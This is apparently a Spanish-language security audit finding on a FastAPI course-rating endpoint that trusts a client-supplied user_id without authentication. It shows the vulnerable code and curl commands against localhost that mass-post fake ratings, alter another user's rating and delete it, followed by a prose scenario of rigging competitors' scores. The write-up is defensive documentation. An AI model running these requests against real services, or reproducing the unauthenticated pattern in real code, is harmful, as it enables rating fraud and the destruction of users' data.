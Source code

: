 **Código Vulnerable**:

```python
@app.post("/courses/{course_id}/ratings")
def add_course_rating(
    course_id: int,
    rating_data: RatingRequest,  # user_id viene aquí sin validación
    course_service: CourseService = Depends(get_course_service)
) -> RatingResponse:
    result = course_service.add_course_rating(
        course_id=course_id,
        user_id=rating_data.user_id,  # ⚠️ Usuario no autenticado puede especificar cualquier user_id
        rating=rating_data.rating
    )
    return RatingResponse(**result)
```

### Escenario de Explotación

#### Ataque 1: Creación Masiva de Ratings Falsos

Un atacante puede crear ratings falsos atribuidos a usuarios arbitrarios:

```bash
# Crear 1000 ratings de 1 estrella atribuidos a diferentes usuarios
for i in {1..1000}; do
  curl -X POST http://localhost:8000/courses/1/ratings \
    -H "Content-Type: application/json" \
    -d "{\"user_id\": $i, \"rating\": 1}"
done
```

**Impacto**: Manipulación del rating promedio del curso, daño a la reputación.

#### Ataque 2: Modificación de Ratings de Otros Usuarios

Un atacante puede modificar o eliminar ratings legítimos de usuarios reales:

```bash
# Modificar el rating del usuario 999
curl -X PUT http://localhost:8000/courses/1/ratings/999 \
  -H "Content-Type: application/json" \
  -d '{"user_id": 999, "rating": 1}'

# Eliminar el rating del usuario 999
curl -X DELETE http://localhost:8000/courses/1/ratings/999
```

**Impacto**: Pérdida de integridad de datos, usuarios reales pierden sus ratings legítimos.

#### Ataque 3: Ataque Competitivo entre Cursos

Un actor malicioso puede:
1. Dar 5 estrellas masivamente a su propio curso (creando usuarios ficticios)
2. Dar 1 estrella masivamente a cursos competidores
3. Manipular las estadísticas de rating para ventaja comercial
